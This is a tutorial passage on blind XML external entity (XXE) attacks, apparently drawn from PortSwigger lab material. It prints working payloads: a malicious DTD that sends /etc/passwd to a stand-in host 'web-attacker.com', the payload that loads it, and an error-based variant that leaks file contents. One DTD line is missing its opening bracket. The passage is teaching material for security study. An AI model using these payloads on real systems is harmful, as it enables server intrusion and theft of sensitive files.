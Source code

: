 What an attacker really wants to achieve is to exfiltrate sensitive  data. This can be achieved via a blind XXE vulnerability, but it 
involves the attacker hosting a malicious DTD on a system that they  control, and then invoking the external DTD from within the in-band XXE  payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

```xml
!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

For example, the attacker might serve the malicious DTD at the following URL: `http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser
to fetch the external DTD from the attacker's server and interpret it  inline. The steps defined within the malicious DTD are then executed, 
and the `/etc/passwd` file is transmitted to the attacker's server.

[Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD Web Security Academy](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

### Exploiting blind XXE to retrieve data via error messages

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
